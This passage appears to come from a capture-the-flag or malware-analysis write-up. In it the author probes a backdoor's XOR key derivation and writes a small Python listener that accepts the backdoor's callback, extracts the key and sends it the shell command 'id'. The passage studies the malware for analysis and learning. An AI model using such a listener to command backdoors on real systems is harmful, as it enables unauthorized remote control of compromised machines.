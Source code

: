 If I send `00` several times in a row:

```

xor_key=b'KEY_PREFIX_P_KEY_SUFFIX'
xor_key=b'KEY_PREFIX_Y_KEY_SUFFIX'
xor_key=b'KEY_PREFIX_F_KEY_SUFFIX'
xor_key=b'KEY_PREFIX_T_KEY_SUFFIX'

```

If I change `00` to `01`, it changes the low bit of each character:

```

xor_key=b'JDX^QSDGHY^K^JDX^RTGGHY'
xor_key=b'JDX^QSDGHY^O^JDX^RTGGHY'
xor_key=b'JDX^QSDGHY^T^JDX^RTGGHY'

```

`$sec` of `AA` makes gibberish:

```

xor_key=b'\xe1\xef\xf3\xf5\xfa\xf8\xef\xec\xe3\xf2\xf5\xfd\xf5\xe1\xef\xf3\xf5\xf9\xff\xec\xec\xe3\xf2'
xor_key=b'\xe1\xef\xf3\xf5\xfa\xf8\xef\xec\xe3\xf2\xf5\xef\xf5\xe1\xef\xf3\xf5\xf9\xff\xec\xec\xe3\xf2'

```

### Send Commands

#### Plaintext - Fail

Given this is a backdoor, and it’s connecting back to me, presumably I can send it commands. Since I have no idea what that format looks like, I’ll have to do some guessing. I can try just replying with a command:

```

    c, address = s.accept()
    print(f'[+] Connection from {address}')
    data = c.recv(1024)
    guid, hex_msg = data.split(b'|')
    msg = unhexlify(hex_msg.strip())
    xor_key = unhexlify(msg.split(b':')[-1])

    print(f'{xor_key=}')

    cmd = "id"
    c.send(f"{cmd}\n".encode())
    print(c.recv(1024))            
    c.close()

s.close()

```
